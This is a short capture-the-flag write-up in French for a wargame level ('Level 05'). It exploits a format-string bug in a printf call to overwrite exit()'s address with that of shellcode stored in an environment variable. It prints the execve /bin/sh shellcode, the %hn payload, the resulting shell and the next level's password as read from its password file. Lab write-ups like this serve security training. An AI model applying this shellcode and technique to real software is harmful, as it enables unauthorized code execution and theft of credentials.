# Level 05

Le programme lis sur l'entrée standart, transforme ce qu'il à `fgets` en minuscules et l'utilise comme format de `printf`.

Comme dans [Rainfall](https://github.com/lpieri/RainFall), nous pouvons exploité `printf` pour réecrire l'adresse de la fonction `exit()` par l'adresse de notre shellcode prélablement exporté dans l'environment.

```shell
~ ./level05
BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
bbbb 64 f7fcfac0 f7ec3af9 ffffd2bf ffffd2be 0 ffffffff ffffd344 f7fdb000 62626262 20782520 25207825 78252078
~ export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
~ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54643x" + "%10$hn" + "%10884x" + "%11$hn"' > /tmp/level05
~ cat /tmp/level05 - | ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```







